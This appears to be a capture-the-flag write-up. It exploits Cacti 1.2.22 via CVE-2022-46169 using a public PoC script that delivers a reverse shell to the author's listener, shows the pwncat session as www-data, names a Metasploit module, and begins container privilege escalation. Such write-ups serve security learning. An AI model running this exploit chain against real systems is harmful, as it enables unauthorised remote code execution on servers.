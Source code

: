 
Cacti version 1.2.22 is vulnerable to [CVE-2022-46169](https://www.sonarsource.com/blog/cacti-unauthenticated-remote-code-execution/), which allows unauthenticated users to execute arbitrary commands with the same privileges as the web server process. This vulnerability comprises two issues: an authentication bypass in `remote.php` and a command injection due to the `poller_id` parameter used with [proc_open()](https://www.php.net/manual/en/function.proc-open.php).

Found a [PoC for the CVE](https://github.com/ariyaadinatha/cacti-cve-2022-46169-exploit) on GitHub, which includes a built-in feature to spawn a reverse shell.

```bash
> python cacti.py
Enter the target address (like 'http://123.123.123.123:8080')   http://10.10.11.211/
Checking vulnerability...
App is vulnerable
Brute forcing id...
Enter your IPv4 addressed  10.10.14.75
Enter the port you want to listen on   9005
Delivering payload...
```

Once the vulnerability in Cacti is exploited, I get a shell as the user `www-data` since Cacti is run as www-data.

```bash
> pc -lp 9005
[19:40:25] Welcome to pwncat 🐈!
[19:51:00] received connection from 10.10.11.211:46380
[19:51:01] 0.0.0.0:9001: upgrading from /usr/sbin/nologin to /bin/bash
[19:51:03] 10.10.11.211:46380: registered new host w/ db
(local) pwncat$
(remote) www-data@50bca5e748b0:/var/www/html$ id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
(remote) www-data@50bca5e748b0:/var/www/html$
```

There's also a metasploit module available for this CVE, `exploit/linux/http/cacti_unauthenticated_cmd_injection`

---

## Privilege Escalation

---

### Container root escalation

It seems Cacti is being hosted in a Docker container.

-   The presence of a `.dockerenv` file and an `entrypoint.sh` script in the root directory.
-   The IP address is of the format 172.x.x.x
-   The hostname resembles a container ID, which is a common naming convention in Docker environments.
-   It is a restricted environment, basic commands like ip or ifconfig are not available
